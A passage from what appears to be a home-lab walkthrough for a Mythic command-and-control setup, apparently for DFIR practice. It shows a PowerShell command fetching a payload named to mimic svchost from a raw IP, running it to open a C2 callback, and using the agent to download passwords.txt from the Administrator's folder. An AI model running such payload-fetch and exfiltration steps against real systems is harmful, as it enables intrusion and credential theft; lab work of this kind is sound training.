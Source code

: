 ```powershell
Invoke-WebRequest -Uri http://45.76.30.116:9999/svchost-dfir.exe -OutFile "C:\Users\Public\Downloads\svchost-dfir.exe"
```

![Screenshot_(944)](https://github.com/user-attachments/assets/99afc215-6577-4882-a1e8-fa44aa107744)

3.3.7. Run the payload on the Windows Server. And in the cmd prompt of the Windows Server check if the connection is **established** between the Windows/Mythic Server

```powershell
.\svchost-dfir.exe

cmd prompt 
netstat -anob
```

![Screenshot_(945)](https://github.com/user-attachments/assets/2250ea50-82ae-478c-bdff-fea23dc54e9a)

3.3.8. The Process ID should match up which can be seen in netstat, task manager, and Mythic GUI

![Screenshot_(947)](https://github.com/user-attachments/assets/cd404d2c-ec4d-4851-b947-9fd044900546)

![Screenshot_(948)](https://github.com/user-attachments/assets/bc49a3ba-06e5-4d50-8363-2ab639de7f83)

![Screenshot_(949)](https://github.com/user-attachments/assets/d73b4a34-efc8-4872-b092-9ce9c1ed0d7a)

3.3.9. Now in the Mythic GUI, under the **Callback** tab, select the task number and the **Keyboard.** Doing so, commands can now be issued to the agent from the Web GUI and ran on the Windows Server

![Screenshot_(950)](https://github.com/user-attachments/assets/4915d006-32de-4881-b568-ce0613771711)

3.4.0. From the Mythic GUI, download the passwords.txt file from the Windows Server. Once the file has been downloaded, the message will turn **green** and show a preview of the file**.** The downloaded file and its contents can then be found in the **Files** tab 

```powershell
download C:\Users\Administrator\Documents\passwords.txt
```

![Screenshot_(951)](https://github.com/user-attachments/assets/8fcf4a05-d60e-4c06-b74e-bd448fe14cae)

![Screenshot_(952)](https://github.com/user-attachments/assets/fabd5166-1c39-49b9-9310-abe89f8543c5)

![Screenshot_(953)](https://github.com/user-attachments/assets/9b5cfcce-16be-47bd-82c0-032f72d22928)
